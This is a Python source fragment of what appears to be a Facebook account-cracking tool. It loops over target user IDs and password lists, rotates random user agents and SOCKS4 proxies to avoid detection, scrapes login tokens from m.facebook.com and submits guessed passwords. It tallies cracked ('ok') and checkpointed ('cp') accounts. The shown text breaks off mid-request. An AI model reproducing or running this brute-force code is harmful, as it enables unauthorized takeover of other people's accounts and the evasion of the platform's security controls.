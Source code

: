 					gas_krek.submit(metod1,idf,pwv)
				elif 'metod2' in baz:
					gas_krek.submit(metod2,idf,pwv)
				elif 'metod3' in baz:
					gas_krek.submit(metod3,idf,pwv)
				else:
					gas_krek.submit(metod3,idf,pwv)
		print(f'{xxx}─────────────────────────────')
		print(f'{hijo}+ {puti}akun ok : {hijo}%s{xxx} '%(ok))
		print(f'{kun}+ {puti}akun cp : {kun}%s{xxx} '%(cp))
		print(f'{xxx}─────────────────────────────')
		
###----------[ M.FB ]----------###
def metod1(idf,pwv):
	global loop,ok,cp
	prog.update(des,description=f'\r[deep_white]{(loop)}/{len(id)}[/] [green]OK[/]:[green]{(ok)} [/]=[yellow] CP[/]:[yellow]{(cp)}')
	prog.advance(des)
	ua = random.choice(usragent)
	ses = requests.Session()
	for pw in pwv:
		try:
			if 'ya' in ualuh: ua = ualu[0]
			nip=random.choice(proxsi)
			proxs= {'http': 'socks4://'+nip}
			ses.headers.update({'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
			p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://m.facebook.com/v2.3/dialog/oauth?app_id=124024574287414&cbt=1651658200978&e2e=%7B%22init%22%3A1651658200978%7D&sso=chrome_custom_tab&scope=email&state=%7B%220_auth_logger_id%22%3A%2268f15bae-23f8-463c-8660-5cf1226d97f6%22%2C%227_challenge%22%3A%22dahj28hqtietmhrgprpp%22%2C%223_method%22%3A%22custom_tab%22%7D&redirect_uri=fbconnect%3A%2F%2Fcct.com.instathunder.app&response_type=token%2Csigned_request%2Cgraph_domain%2Cgranted_scopes&return_scopes=true&ret=login&fbapp_pres=0&logger_id=68f15bae-23f8-463c-8660-5cf1226d97f6&tp=unspecified","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'